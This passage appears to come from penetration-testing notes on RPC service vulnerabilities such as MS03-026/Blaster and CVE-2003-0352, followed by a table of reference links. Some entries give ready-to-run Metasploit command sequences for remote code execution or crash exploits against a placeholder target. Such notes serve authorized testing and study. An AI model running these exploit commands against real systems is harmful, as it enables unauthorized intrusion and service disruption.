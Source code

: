 #### MS03-026 (Blaster Worm)

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/windows/smb/ms03_026_dcom
    set RHOST <target_ip>
    run
    ```
* **Description:** A critical vulnerability in the RPC interface that allowed remote code execution. Exploits a heap overflow in the RPCSS service to execute arbitrary code with SYSTEM privileges.

#### Rpcbomb (CVE-2003-0681)

*   **Tool:** \[\[Custom Scripts]], \[\[Metasploit]]

    ```bash
    use exploit/unix/rpc/rpcbomb
    set RHOST <target_ip>
    run
    ```
* **Description:** Exploit RPCBind to crash or execute arbitrary code on the target system.

#### Microsoft Windows RPC DCOM Vulnerability (CVE-2003-0352)

* **Tool:** \[\[Custom Scripts]], \[\[Metasploit]]
* **Description:** A critical vulnerability in Microsoft Windows' RPC implementation, allowing remote code execution.

#### Linux rpc.ugidd Buffer Overflow

* **Tool:** \[\[Custom Scripts]], \[\[Metasploit]]
* **Description:** A buffer overflow in the rpc.ugidd service that could allow arbitrary code execution.

## Resources

| **Website**                 | **URL**                                                                             |
| --------------------------- | ----------------------------------------------------------------------------------- |
| Microsoft RPC Documentation | https://docs.microsoft.com/en-us/windows/win32/rpc/remote-procedure-calls-over-http |
| RFC 2616 (HTTP 1.1)         | https://tools.ietf.org/html/rfc2616                                                 |
| Metasploit Framework        | https://www.metasploit.com                                                          |
| Wireshark User Guide        | https://www.wireshark.org/docs/wsug\_html\_chunked/                                 |
| PowerShell Documentation    | https://docs.microsoft.com/en-us/powershell/                                        |
| Nmap Guide                  | https://nmap.org/book/nmap-services.html                                            |
| Hydra Documentation         | https://github.com/vanhauser-thc/thc-hydra                                          |
| IIS Administration Guide    | https://docs.microsoft.com/en-us/iis/get-started/introduction-to-iis/               |
| Scapy Documentation         | https://scapy.readthedocs.io/en/latest/                                             |
| SSL/TLS Best Practices      | https://docs.microsoft.com/en-us/security/engineering/ssl-tls-best-practices        |
